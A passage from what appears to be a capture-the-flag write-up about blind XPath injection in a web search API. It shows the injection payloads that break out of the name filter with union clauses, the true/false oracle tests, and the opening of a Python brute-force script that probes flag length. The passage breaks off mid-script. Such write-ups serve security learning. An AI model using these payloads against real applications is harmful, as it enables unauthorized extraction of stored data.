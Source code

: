 Success!! We can successfully inject into the name variable without breaking the application. 

![Injection0](/blog/assets/images/Pasted_image_20210421121348.png)

With this knowledge we are now able to inject any XPATH query into the application. 
Seeing as the application will only give us a true or false result, we'll have to do error-based injection. 

```python
if tree.xpath(query):

 return {"success": 1, "message": "This millitary staff member exists."}

 return {"failure": 1, "message": "This millitary staff member doesn't exist."}
```

We first test if we are able to get a success message or a query we know is true. We search for the user "Straorg" from the Leaderboard tab.

```json
{"search":"random'] | /military/district/staff[name='Straorg'] | /military/district/staff[name='random"}
```

We get a success. 

![Injection1](/blog/assets/images/Pasted_image_20210421121812.png)

Now searching for a non-existing user. 

```json
{"search":"random'] | /military/district/staff[name='RFC1918'] | /military/district/staff[name='random"}
```

We get a failure response. 

![Injection2](/blog/assets/images/Pasted_image_20210421121907.png)

Success. We now know if we send a query thats true, we will get a success and if the query is false we get a failure. Taking this knowledge we can now build a script to bruteforce each character of the flag. 

But first we need to find out which two users have the selfDestructCode element. 

Doing a quick test we quickly discovered that it will be the user indexed at 2 and 3. 

```json
{"search":"random'] | /military/district/staff[2] | /military/district/staff[name='random"}
```

![Injection3](/blog/assets/images/Pasted_image_20210421122300.png)

We now have all the information to start bruteforcing the flag. 

```python
#!/usr/share/python3

from lxml import etree
import requests, string

url = 'http://138.68.177.159:30743/api/search'

flag = ""
first_flag = 21 # random'] | /military/district/staff[3]/selfDestructCode[string-length(text()) = 21] | /military/district/staff[name='random
second_flag =  15 # random'] | /military/district/staff[2]/selfDestructCode[string-length(text()) = 15] | /military/district/staff[name='random
alphabet = string.ascii_letters + string.digits + "$" + "{}_()"

print("Character set: " + alphabet)
```